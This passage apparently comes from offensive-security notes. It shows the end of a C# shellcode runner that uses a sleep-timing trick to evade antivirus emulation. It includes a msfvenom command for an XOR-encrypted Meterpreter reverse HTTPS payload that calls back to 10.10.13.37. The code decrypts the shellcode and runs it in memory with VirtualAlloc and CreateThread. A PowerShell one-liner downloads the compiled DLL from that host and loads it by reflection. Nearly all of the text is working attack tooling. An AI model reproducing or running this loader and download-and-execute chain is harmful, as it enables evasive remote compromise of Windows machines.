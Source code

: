 ```csharp
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37
            };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
{% endcode %}

Compile to DLL and load with PowerShell from memory:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ShellcodeRunner.Program")
$method = $class.GetMethod("Run")
$method.Invoke(0, $null)
Or
$a = [ShellcodeRunner.Program]::Run()
```


